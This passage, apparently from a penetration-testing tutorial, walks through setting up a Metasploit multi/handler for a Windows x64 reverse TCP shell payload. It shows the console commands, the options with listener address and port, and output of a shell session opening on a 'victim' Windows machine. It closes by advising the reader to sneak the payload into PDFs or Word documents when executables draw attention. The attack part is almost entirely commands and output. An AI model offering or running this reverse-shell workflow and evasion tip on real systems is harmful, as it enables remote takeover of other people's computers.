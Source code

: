 Inside Metasploit, we have to launch the generic payload handler. [This module is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside of the framework.](https://www.rapid7.com/db/modules/exploit/multi/handler). Don't forget to set the options and the payload to match the one you put in the executable:

``` plain
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf exploit(handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.80.155   yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

Now run the exploit on your machine. All you need to do now is to transfer your executable to the victim machine and run it there to receive your shell:

``` plain
msf exploit(handler) > run 

[*] Started reverse TCP handler on 192.168.80.155:4444 
[*] Starting the payload handler...
[*] Sending stage (336 bytes) to 192.168.80.128
[*] Command shell session 1 opened (192.168.80.155:4444 -> 192.168.80.128:49196) at 2016-06-08 11:19:16 -0400

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\wingoat\Desktop>
```

Success! This demo was pretty straightforward, but if executables attract too much attention on the target, you can try to sneak your payload into PDFs or Word documents instead.
